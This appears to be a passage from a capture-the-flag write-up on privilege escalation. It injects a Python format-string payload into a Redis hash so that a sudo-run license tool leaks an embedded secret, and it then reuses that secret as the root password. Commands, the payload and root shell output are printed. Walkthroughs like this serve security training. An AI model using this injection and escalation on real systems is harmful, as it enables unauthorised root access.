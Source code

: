 the key is composed of :

- "microblog"
- username
- license.license : 40 characters wide random string
- first-name
- last-name

first or last name could have a payload to exploit the format() function. 

So we can inject the required fields in redis, the execute the licence executable

we can set last name to:

```python
{license.__init__.__globals__[secret]}
```

```shell
redis-cli -s /var/run/redis/redis.sock
```

```text
HSET john username john
HSET john first-name john
HSET john last-name {license.__**init__**.__**globals__**[secret]}
```

Now, we can run `/usr/bin/license` to provision a license key for the new user which we created.

```shell
sudo /usr/bin/license -p "john"
```

![Untitled](assets/license.png)

The licence key :

```text
microblogjohn3j{vM{+Dh5b=sTKEOKH1l^O|>~Jp)ri}OnEM#>/IjohnunCR4ckaBL3Pa$$w0rd
```

at the end, we have the first name : john

and the secret used to cipher : `unCR4ckaBL3Pa$$w0rd`

that looks like a password ...

A simple "su" allow to get a root shell :

```shell
cooper@format:~$ su -
Password:
root@format:~# id
uid=0(root) gid=0(root) groups=0(root)
root@format:~#
```


